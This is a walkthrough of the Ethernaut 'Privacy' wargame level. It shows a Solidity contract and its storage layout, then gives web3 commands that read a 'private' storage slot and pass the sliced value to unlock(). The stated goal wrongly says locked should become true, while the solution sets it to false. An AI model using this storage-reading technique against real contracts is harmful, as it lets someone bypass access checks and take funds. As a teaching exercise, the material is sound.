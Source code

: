 # 12 - Privacy

Ethernaut Level12: Privacy

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(block.timestamp);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }
}
```

### Goal of this level

* make `locked` variable `true`

### What you should know before

* Variable Packing\
  \-> see [here](https://fravoll.github.io/solidity-patterns/tight\_variable\_packing.html)
* Storage Layout\
  \-> see [here](https://www.youtube.com/watch?v=Gg6nt3YW74o\&t=3s)
* Type Conversion



## Solution

<details>

<summary>Key to solve this problem 🔑</summary>

You can directly access the storage where data\[2] is stored.

Once we have that value, this level will be easily solved!

</details>

This is the storage layout of `Privacy` contract.

* slot0: `locked`
* slot1: `ID`
* slot2: `awkwardness` / `denomination` / `flattening`
* slot3: `data[0]`
* slot4: `data[1]`
* slot5: `data[2]`

Let's read slot5.

```javascript
> const val = await web3.eth.getStorageAt(contract.address, 5);
// '0x679350029df6d13ef8b094a3d41a9eccad9be90494637f24e532202e64e4527d'
```

We just have to slice first half of this value for `_key`.\
(this is how `bytes32` is converted to `bytes16`)

```javascript
> const _key = val.substr(0, 34);
// '0x' + first 16 bytes

> await contract.unlock(_key);
```

Done! 😎

## Key Takeaways

* Never store private data in blockchain
* The keyword private does not mean you cannot read the data.

